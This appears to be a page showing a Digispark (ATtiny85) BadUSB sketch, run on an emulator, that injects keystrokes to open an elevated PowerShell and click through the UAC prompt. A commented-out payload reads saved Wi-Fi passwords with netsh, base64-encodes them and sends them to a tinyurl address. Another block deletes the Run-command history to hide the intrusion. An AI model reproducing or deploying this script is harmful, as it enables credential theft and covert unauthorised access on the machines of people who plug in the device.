
This sketch was run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 0.6 s:

Timing chart, 0 to 2.1 s (numbered marks = the images above):


The sketch:

powershell-admin-download-execute.ino
```cpp
#include "DigiKeyboard.h"
/* Init function */

void setup()
{//turn LED off while code is running, this means the device is safe to unplug as soon as the LED turns back on
  pinMode(1, OUTPUT); //LED on Model A
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("powershell Start-Process powershell -Verb runAs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);

  DigiKeyboard.println("echo test");
  //String payload = "Invoke-WebRequest -Uri \"https://tinyurl.com/bdd5j46j?var=$([Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes((Out-String -InputObject ((netsh wlan show profiles) | Select-String \" \"Contenu de la clé\\W+\\:(.+)$\" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME123456789123456789123456789123456789=$name; PASSWORD123456789123456789123456789123456789=$pass }})))))\" | Out-Null";
  //DigiKeyboard.println(payload);

  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.println("exit");

  /*DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  // Clear run command history
  DigiKeyboard.println("reg delete HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\RunMRU /va /f");
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  digitalWrite(1, HIGH);*/
}

/* Unused endless loop */
void loop() {}
```
